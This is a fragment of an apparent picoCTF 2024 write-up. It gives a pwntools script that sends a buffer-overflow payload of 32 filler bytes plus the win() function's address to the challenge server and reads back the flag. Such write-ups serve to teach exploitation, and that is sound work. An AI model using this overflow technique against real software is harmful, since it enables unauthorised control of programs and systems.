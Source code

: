 Then I made a python script to send 32 chars, and then the memory address for the win() function

```python
from pwn import *

# Connect to the remote host and port
host = 'mimas.picoctf.net'
port = 61553
p = remote(host, port)

# Pause to allow time for the binary to start up
pause()

# Select option 2 to write to the buffer
p.sendline('2')

# Send the payload to trigger buffer overflow
payload = b"A" * 32 + b"\xa0\x11\x40"
p.sendline(payload)

# Select option 4 to print the flag
p.sendline('4')

# Receive and print the flag
print(p.recvuntil('}').decode())

```

![Binary](picoCTF2024/Binary17.png)
